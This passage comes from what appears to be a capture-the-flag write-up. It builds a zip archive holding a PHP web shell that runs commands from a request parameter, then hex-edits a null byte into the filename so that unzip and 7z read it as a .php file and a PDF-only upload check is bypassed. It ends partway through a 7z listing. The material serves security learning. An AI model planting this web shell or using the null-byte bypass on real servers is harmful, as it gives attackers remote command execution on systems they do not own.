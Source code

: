 Instead, I’ll write one with two dots, the first acting as a placeholder:

    
    
    >>> with zipfile.ZipFile("nulls.zip", "w") as zip_file:
    ...     zip_file.writestr("0xdf.php..pdf", "<?php system($_REQUEST['cmd']); ?>")
    ... 
    

Now I’ll open `nulls.zip` in a hex editor find the references to the filename:

![image-20240110123544736](../img/image-20240110123544736.png)

Changing the first one will break `7z`, which is important because that’s what
Zipping uses. I’ll just change the first null in the second filename:

![image-20240110123955810](../img/image-20240110123955810.png)

#### Handling Nulls 7z/zip vs PHP

Once I’ve edited the null into the second filename instance inside the zip,
`unzip` and `7z` both show it as just `0xdf.php`, stopping at the null:

    
    
    oxdf@hacky$ unzip -l nulls.zip 
    Archive:  nulls.zip
      Length      Date    Time    Name
    ---------  ---------- -----   ----
           34  2024-01-10 12:34   0xdf.php
    ---------                     -------
           34                     1 file
    oxdf@hacky$ 7z l nulls.zip 
    